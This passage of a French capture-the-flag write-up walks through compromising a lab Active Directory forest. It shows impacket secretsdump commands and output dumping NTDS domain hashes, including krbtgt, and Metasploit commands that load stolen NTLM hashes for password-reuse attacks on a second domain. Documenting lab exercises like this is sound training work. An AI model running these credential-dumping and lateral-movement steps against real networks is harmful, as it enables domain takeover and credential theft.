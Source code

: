 ```
NL$KM:2bedab0348cbe1079ba34dfa70abe1eb1467157adb28f04d3cb3b734456883cb771e98242f36fc65b3e07080ed8a66b11237ea13faa15af5950a29440a5b5012
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] Could not connect: [Errno 111] Connection refused
[*] Something wen't wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

Il semble que l'on ait récupéré le hash de l'admin. Sauf que malheurement il ne permet pas de valider l'étape. 
En regardant attentivement la sortie de secretdump, on se rend compte que le hash récupéré n'est pas le hash du domaine, mais un hash local.  
Comme nous le conseille le script, on ajoute l'option -use-vss pour récupérer les hashs au niveau du domaine.

```
proxychains impacket/examples/secretsdump.py Administrator@dcfil.pramafil.corp -k -no-pass -use-vss

[*] Reading and decrypting hashes from \\dcfil.pramafil.corp\ADMIN$\Temp\SVDhbYrk.tmp 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:568ec725---------------f30e38eec:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DCFIL$:1001:aad3b435b51404eeaad3b435b51404ee:6a7a6007fdb7b82c61dda608f599d4e6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4d5e0617720ee5eaf21830fd8d8f75ea:::
```

On a alors une liste de plein de compte avec leur hash NTLM associés (remarquer le NTLM du krbtgt qui correspond bien à celui récupéré au niveau du MANIFEST.xml de pramafil sur le shop).

Et voilà le flag de cette étape : 568ec725---------------f30e38eec

## Infiltration de la société mère par son sous-domaine (flag 4)

Pour rappel, nous devons infiltrer le réseau interne de pramacorp. Pour ce faire, il y a plusieurs étapes. La premiére sera de récupérer un maximum de droits sur le domaine pramafil.corp (flag 3) puis ensuite compromettre le sous-domaine dev.pramacorp.fr (flag 4) pour enfin attaquer le domaine maitre pramacorp.fr (notre cible final, flag 5).

Pour cette étape, j'ai principalement utilisé Metasploit et Empire.  

Nous venons de rooter un premier domaine. Nous devons root dev.pramacorp.fr
Pour commencer, utilisons les couples login/password que l'on a récupéré du 1er domaine sur le 2iéme en utilisant la faille la plus connue de tous, la réutilisation de mot de passe par les utilisateurs.  
Commençons par transformer les hashs récupérés en identifiants DB pour msf. 

```
msf > creds add user:FORESTIER ntlm:aad3b435b51404eeaad3b435b51404ee:1cc2fa4c90e482524bbe6b91c6e0c27b
msf > creds add user:BLONDEAU ntlm:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf > creds add user:ROQUES ntlm:aad3b435b51404eeaad3b435b51404ee:887b8bc8500824870785a42b333d6ef5
msf > creds add user:RICARD ntlm:aad3b435b51404eeaad3b435b51404ee:aa06c4e2acf15e71ce9a8c0fb2ea1a10
msf > creds add user:POMMIER ntlm:aad3b435b51404eeaad3b435b51404ee:5908b3a40ec0ba0f32c2502f4dd053fa
msf > creds add user:BITION ntlm:aad3b435b51404eeaad3b435b51404ee:27cbe43b98013e6e7a5c16fc484b4b6a
.......
```
